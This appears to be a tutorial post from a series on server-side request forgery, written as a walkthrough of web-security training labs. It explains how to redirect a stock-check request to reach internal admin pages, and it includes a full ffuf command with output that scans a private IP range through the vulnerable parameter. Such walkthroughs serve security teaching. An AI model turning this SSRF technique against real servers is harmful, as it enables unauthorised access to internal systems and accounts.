




# Server-Side Request Forgery (SSRF) (2/7)

SSRF is a vulnerability that allows attackers to send arbitrary requests in behalf of the target web server. They typically occur on points where the website is triggered to request some data from an API. The attacker could exploit this vulnerability by crafting requests that reach either another endpoint in the application’s scope or an URL that is outside of it.



Here, we are able to change the URL being requested to try accessing the admin page. Usually, you wont be able to gain access to the pages right away, but only receive the page’s content in the response. We are then able to get the URL from the requests caused by the functionality we are trying to access in the admin page and insert them in our first request, bypassing access control, as the request will come from a trusted source: the application itself.



*Deleting arbitrary accounts* 

## Mapping private network’s back-end systems

By analyzing this application’s stock checking feature, we notice that it is making a request to `192.168.0.1:8080`.



With that information, we could try mapping for other IPs in the local network by using automated tools such as burp intruder or ffuf. On the example below, I URL encoded the payload, but it wasn’t necessary.

`http://192.168.0.FUZZ:8080/admin` ← Here, “FUZZ” represents the place where the numbers will be placed.

```bash
[zetsu@aaa projects]$ ffuf -u https://0a98000b03555fa68018446900cf0088.web-security
-academy.net/product/stock/ -x http://127.0.0.1:8080 -X POST -H "Content-type: 
application/x-www-form-urlencoded" -d "stockApi=http%3a%2f%2f192%2e168%2e0%2eFUZZ
%3a8080%2fadmin" -w ~/tools/wordlists/numbers-0-to-255 -fc 500

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : https://0a98000b03555fa68018446900cf0088.web-security-academy.net/product/stock/
 :: Wordlist         : FUZZ: /home/zetsu/tools/wordlists/numbers-0-to-255
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : stockApi=http%3a%2f%2f192%2e168%2e0%2eFUZZ%3a8080%2fadmin
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://127.0.0.1:8080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 500
________________________________________________

137                     [Status: 200, Size: 3141, Words: 1368, Lines: 67, Duration: 313ms]
:: Progress: [256/256] :: Job [1/1] :: 149 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```


